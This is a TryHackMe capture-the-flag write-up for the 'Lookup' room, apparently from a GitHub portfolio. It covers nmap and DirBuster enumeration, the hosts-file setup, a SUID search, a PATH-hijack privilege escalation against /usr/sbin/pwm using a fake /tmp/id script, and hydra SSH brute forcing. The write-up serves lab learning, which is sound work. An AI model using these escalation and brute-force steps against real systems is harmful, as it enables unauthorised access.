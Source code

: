 # 🔍 TryHackMe - Lookup

**Room:** Lookup  
**Platform:** TryHackMe  
**Focus:** Enumeration, Web Exploitation, Privilege Escalation  
**Difficulty:** Easy/Medium  
**Status:** Completed ✅

---

## 🧭 Enumeration

Performed initial enumeration with Nmap:
```bash
nmap -sC -sV -p- <IP>
```

Identified open ports for SSH and HTTP.

Used **DirBuster** with the wordlist `apache-user-enum-1.txt` to enumerate directories and potential usernames.

📸 ![DirBuster Enumeration](../screenshots/lookup/1.png)

Found `jose` as a valid user.

📸 ![Valid User Found](../screenshots/lookup/2.png)

---

## 🔐 Web Login and Hostname Discovery

Navigated to the login page on the web server. Upon login, was redirected to:

```text
files.lookup.thm/
```

Added this domain to `/etc/hosts` for local name resolution.

📸 ![Login Redirect](../screenshots/lookup/3.png)

📸 ![Updated Hosts File](../screenshots/lookup/4.png)

---

## 🗂️ File Navigation Post-Login

After successful login, accessed the internal file management page.

📸 ![File Page After Login](../screenshots/lookup/5.png)

Attempted to access `/home/think`, but permission was denied.

📸 ![Permission Denied on Home](../screenshots/lookup/6.png)

---

## 🔍 Privilege Escalation

Ran a search to find SUID binaries:

```bash
find / -perm /4000 2>/dev/null
```

📸 ![SUID Check](../screenshots/lookup/7.png)

Discovered `/usr/sbin/pwm` as an exploitable SUID binary.

Crafted a malicious `id` script in `/tmp/` and modified the `PATH`:

```bash
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

📸 ![PATH Hijack](../screenshots/lookup/8.png)

Successfully escalated privileges.

---

## 🔓 SSH Brute Forcing

Performed SSH brute-force login attempts using `hydra`.

📸 ![SSH Brute Force](../screenshots/lookup/9.png)

---

## 🎯 Post-Exploitation

Accessed the user’s home directory and retrieved the `user.txt` flag.

📸 ![User Flag Found](../screenshots/lookup/10.png)

---

## 🧠 Lessons Learned

- Importance of enum tools like DirBuster and Nmap in early-stage recon
- DNS redirection handling using `/etc/hosts`
- Creative SUID exploitation via `$PATH` manipulation
- Brute-forcing SSH credentials after valid user discovery

---

## 📁 Screenshots

Screenshots from the attack chain are stored in the [`../screenshots/lookup/`](../screenshots/lookup/) directory.

---

📁 [Back to TryHackMe Write-Ups](./README.md) | [Back to Portfolio Home](../README.md)
